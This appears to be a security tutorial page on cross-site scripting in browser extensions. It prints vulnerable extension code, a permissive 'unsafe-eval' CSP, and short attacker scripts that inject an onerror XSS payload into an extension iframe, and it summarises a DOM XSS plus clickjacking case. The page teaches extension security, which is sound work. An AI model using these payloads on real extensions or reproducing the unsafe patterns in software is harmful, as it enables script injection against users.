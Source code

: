 # BrowExt - XSS Example

## Cross-Site Scripting (XSS) through Iframe

In this setup, a **content script** is implemented to instantiate an Iframe, incorporating a URL with query parameters as the source of the Iframe:

```javascript
chrome.storage.local.get("message", (result) => {
  let constructedURL =
    chrome.runtime.getURL("message.html") +
    "?content=" +
    encodeURIComponent(result.message) +
    "&redirect=https://example.net/details"
  frame.src = constructedURL
})
```

A publicly accessible HTML page, **`message.html`**, is designed to dynamically add content to the document body based on the parameters in the URL:

```javascript
$(document).ready(() => {
  let urlParams = new URLSearchParams(window.location.search)
  let userContent = urlParams.get("content")
  $(document.body).html(
    `${userContent} <button id='detailBtn'>Details</button>`
  )
  $("#detailBtn").on("click", () => {
    let destinationURL = urlParams.get("redirect")
    chrome.tabs.create({ url: destinationURL })
  })
})
```

A malicious script is executed on an adversary's page, modifying the `content` parameter of the Iframe's source to introduce a **XSS payload**. This is achieved by updating the Iframe's source to include a harmful script:

```javascript
setTimeout(() => {
  let targetFrame = document.querySelector("iframe").src
  let baseURL = targetFrame.split("?")[0]
  let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
  let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

  document.querySelector("iframe").src = maliciousURL
}, 1000)
```

An overly permissive Content Security Policy such as:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

allows the execution of JavaScript, making the system vulnerable to XSS attacks.

An alternative approach to provoke the XSS involves creating an Iframe element and setting its source to include the harmful script as the `content` parameter:

```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
  "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
  encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```

## DOM-based XSS + ClickJacking

This example was taken from the [original post writeup](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

The core issue arises from a DOM-based Cross-site Scripting (XSS) vulnerability located in **`/html/bookmarks.html`**. The problematic JavaScript, part of **`bookmarks.js`**, is detailed below:

```javascript
$("#btAdd").on("click", function () {
  var bookmarkName = $("#txtName").val()
  if (
    $(".custom-button .label").filter(function () {
      return $(this).text() === bookmarkName
    }).length
  )
    return false

  var bookmarkItem = $('<div class="custom-button">')
  bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
  bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
  bookmarkItem.attr("data-title", bookmarkName)
  bookmarkItem.data("timestamp", new Date().getTime())
  $("section.bookmark-container .existing-items").append(bookmarkItem)
  persistData()
})
```

This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Typically, the Chrome extension's Content Security Policy (CSP) would prevent such vulnerabilities. However, due to **CSP relaxation with ‘unsafe-eval’** and the use of jQuery’s DOM manipulation methods (which employ [`globalEval()`](https://api.jquery.com/jquery.globaleval/) to pass scripts to [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) upon DOM insertion), exploitation is still possible.

While this vulnerability is significant, its exploitation is usually contingent on user interaction: visiting the page, entering an XSS payload, and activating the “Add” button.

To enhance this vulnerability, a secondary **clickjacking** vulnerability is exploited. The Chrome extension's manifest showcases an extensive `web_accessible_resources` policy:

```json
"web_accessible_resources": [
    "html/bookmarks.html",
    "dist/*",
    "assets/*",
    "font/*",
    [...]
],
```

Notably, the **`/html/bookmarks.html`** page is prone to framing, thus vulnerable to **clickjacking**. This vulnerability is leveraged to frame the page within an attacker’s site, overlaying it with DOM elements to redesign the interface deceptively. This manipulation leads victims to interact with the underlying extension unintentionally.

## References

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

